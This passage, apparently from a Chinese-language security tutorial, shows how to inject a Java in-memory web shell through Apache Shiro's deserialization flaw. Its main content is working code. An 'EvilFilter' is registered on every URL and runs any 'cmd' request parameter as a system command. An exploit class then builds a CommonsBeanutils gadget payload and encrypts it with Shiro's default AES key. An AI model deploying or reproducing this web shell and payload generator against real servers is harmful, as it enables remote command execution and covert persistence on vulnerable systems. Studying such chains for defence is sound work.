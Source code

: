 ```plain
            filterConfigs.put("EvilFilter", filterConfig);
            //FilterMap
            FilterMap filterMap = new FilterMap();
            filterMap.setFilterName("EvilFilter");
            filterMap.addURLPattern("/*");
            filterMap.setDispatcher(DispatcherType.REQUEST.name());
            context.addFilterMap(filterMap);
        }catch (Exception e){
            e.printStackTrace();
        }
    }

    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }

    @Override
    public void init(FilterConfig filterConfig) throws ServletException {
    }

    @Override
    public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws ServletException, IOException {
        String cmd = servletRequest.getParameter("cmd");
        Runtime.getRuntime().exec(cmd);
        filterChain.doFilter(servletRequest, servletResponse);
        System.out.println("doFilter");
    }

    @Override
    public void destroy() {
    }
}
```

这里没有做回显处理只是简单的测试一下命令执行的功能。

#### 内存马测试

我们既然是要通过shiro的反序列化漏洞注入内存马，我们就要选择一个gadget，在通常情况下shiro是没有CC依赖的，所以我选择打CB链。具体的CB链payload的构成可以参照p神的java安全漫谈配套源码[https://github.com/phith0n/JavaThings](https://github.com/phith0n/JavaThings) 众所周知想要完成shiro的反序列化还需要用AES对生成的payload进行加密，所以我们最终得到的poc如下，使用如下代码段即可完成payload的生成（CommonsBeanutils1Shiro()就是p神的那条CB链）

```plain
public class Exp {
    public static void main(String []args) throws Exception {
        ClassPool pool = ClassPool.getDefault();
        CtClass clazz = pool.get(BehinderFilter.class.getName());
        byte[] payloads = new CommonsBeanutils1Shiro().getPayload(clazz.toBytecode());

        AesCipherService aes = new AesCipherService();
        byte[] key = java.util.Base64.getDecoder().decode("kPH+bIxk5D2deZiIxcaaaA==");

        ByteSource ciphertext = aes.encrypt(payloads, key);
        System.out.printf(ciphertext.toString());
    }
}
```